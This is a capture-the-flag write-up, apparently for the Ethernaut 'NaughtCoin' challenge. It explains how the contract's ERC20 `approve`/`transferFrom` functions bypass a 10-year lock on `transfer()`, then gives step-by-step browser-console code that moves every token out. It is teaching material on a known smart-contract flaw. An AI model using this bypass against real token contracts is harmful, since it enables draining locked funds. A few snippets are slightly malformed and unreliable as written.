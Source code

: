 > NaughtCoin is an ERC20 token and you're already holding all of them. The catch is that you'll only be able to transfer them after a 10 year lockout period. Can you figure out how to get them out to another address so that you can transfer them freely?

The `NaughtCoin` contract we see inherits from OZ's `ERC20` contract and only implements its `transfer()` function. On contract creation, a 10 year `timeLock` is set in storage. `transfer()` is then given a modifier, `lockTokens()`, which requires that the `timeLock` has been met. How do we get around this?

If you've ever looked at ERC20 code before, you'd know that `transfer` isn't the only standard function used for transferring tokens. This is why the description points us to **eip-20** and the ERC20 standard - the solution is there.

The ERC20 standard has a function `transferFrom` which allows for a withdraw workflow to be triggered by a contract on a user's behalf. Let's use this to drain ourselves of `NaughtCoin`s!

## Solution
We can knock this whole thing out in our browser's console.

1. Grab our balance
```javascript
let totalBalance = await contract.balanceOf(player).then(balance => balance.toString())
// '1000000000000000000000000'
```
2. Check our allowance (this shows us how much we are allowed to have withdrawn)
```javascript
(await contract.allowance(player)).toString()
// '0'
```
3. Approve that we can transfer out our entire balance
```javascript
(await contract.approve(player, totalBalance)).toString()

(await contract.allowance(player)).toString()
// '1000000000000000000000000'
```
4. Now that we're approved for draining our funds, take a random wallet address and send it our Naught Coins
```javascript
let randomAddress = '0xc0ffee254729296a45a3885639AC7E10F9d54979'

(await contract.transferFrom(player, randomAddress, totalBalance)).toString()
```
5. Finally, check our balance to see we've emptied it and submit
```javascript
await contract.balanceOf(player).then(balance => balance.toString())
// '0'
```